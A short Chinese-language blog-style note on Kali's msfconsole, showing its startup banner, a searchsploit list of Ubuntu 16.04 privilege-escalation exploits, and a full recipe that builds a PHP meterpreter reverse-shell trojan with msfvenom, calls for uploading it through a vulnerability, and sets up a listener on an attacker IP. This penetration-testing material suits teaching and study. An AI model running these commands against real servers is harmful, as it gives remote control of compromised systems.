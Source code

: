 ======================
msfconsole
======================


.. post:: 2023-02-26 21:30:12
  :tags: kali, kali渗透专用指令
  :category: 安全
  :author: YanQue
  :location: CD
  :language: zh-cn


交互式漏洞搜索工具

示例
======================

.. code-block:: sh

	┌──(yanque㉿kali)-[~]
	└─$ msfconsole

	Call trans opt: received. 2-19-98 13:24:18 REC:Loc

		Trace program: running

			wake up, Neo...
			the matrix has you
		follow the white rabbit.

			knock, knock, Neo.

							(`.         ,-,
							` `.    ,;' /
							`.  ,'/ .'
							`. X /.'
					.-;--''--.._` ` (
				.'            /   `
				,           ` '   Q '
				,         ,   `._    \
			,.|         '     `-.;_'
			:  . `  ;    `  ` --,.._;
			' `    ,   )   .'
				`._ ,  '   /_
					; ,''-,;' ``-
					``-..__``--`

								https://metasploit.com


		=[ metasploit v6.2.26-dev                          ]
	+ -- --=[ 2264 exploits - 1189 auxiliary - 404 post       ]
	+ -- --=[ 951 payloads - 45 encoders - 11 nops            ]
	+ -- --=[ 9 evasion                                       ]

	Metasploit tip: After running db_nmap, be sure to
	check out the result of hosts and services
	Metasploit Documentation: https://docs.metasploit.com/

	msf6 > searchsploit ubuntu 16.04
	[*] exec: searchsploit ubuntu 16.04

	---------------------------------------------- ---------------------------------
	Exploit Title                                |  Path
	---------------------------------------------- ---------------------------------
	Apport 2.x (Ubuntu Desktop 12.10 < 16.04) - L | linux/local/40937.txt
	Exim 4 (Debian 8 / Ubuntu 16.04) - Spool Priv | linux/local/40054.c
	Google Chrome (Fedora 25 / Ubuntu 16.04) - 't | linux/local/40943.txt
	LightDM (Ubuntu 16.04/16.10) - 'Guest Account | linux/local/41923.txt
	Linux Kernel (Debian 7.7/8.5/9.0 / Ubuntu 14. | linux_x86-64/local/42275.c
	Linux Kernel (Debian 9/10 / Ubuntu 14.04.5/16 | linux_x86/local/42276.c
	Linux Kernel (Ubuntu 16.04) - Reference Count | linux/dos/39773.txt
	Linux Kernel 4.14.7 (Ubuntu 16.04 / CentOS 7) | linux/local/45175.c
	Linux Kernel 4.4 (Ubuntu 16.04) - 'BPF' Local | linux/local/40759.rb
	Linux Kernel 4.4 (Ubuntu 16.04) - 'snd_timer_ | linux/dos/46529.c
	Linux Kernel 4.4.0 (Ubuntu 14.04/16.04 x86-64 | linux_x86-64/local/40871.c
	Linux Kernel 4.4.0-21 (Ubuntu 16.04 x64) - Ne | linux_x86-64/local/40049.c
	Linux Kernel 4.4.0-21 < 4.4.0-51 (Ubuntu 14.0 | windows_x86-64/local/47170.c
	Linux Kernel 4.4.x (Ubuntu 16.04) - 'double-f | linux/local/39772.txt
	Linux Kernel 4.6.2 (Ubuntu 16.04.1) - 'IP6T_S | linux/local/40489.txt
	Linux Kernel 4.8 (Ubuntu 16.04) - Leak sctp K | linux/dos/45919.c
	Linux Kernel < 4.13.9 (Ubuntu 16.04 / Fedora  | linux/local/45010.c
	Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - L | linux/local/44298.c
	Linux Kernel < 4.4.0-21 (Ubuntu 16.04 x64) -  | linux_x86-64/local/44300.c
	Linux Kernel < 4.4.0-83 / < 4.8.0-58 (Ubuntu  | linux/local/43418.c
	Linux Kernel < 4.4.0/ < 4.8.0 (Ubuntu 14.04/1 | linux/local/47169.c
	---------------------------------------------- ---------------------------------
	Shellcodes: No Results
	msf6 >


.. code-block:: sh

	# 生成木马文件
	msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.142.132 lport=7777 -o shell.php

	# 将木马文件通过漏洞上传到服务器, 然后触发访问

	# 打开交互式msfconsole工具做好监听
	msfconsole

	use exploit/multi/handler
	set payload php/meterpreter/reverse_tcp
	set lhost 192.168.142.132
	set lport 7777
	exploit

lhost
	自己机器的ip

详情见: :doc:`../msf/index`





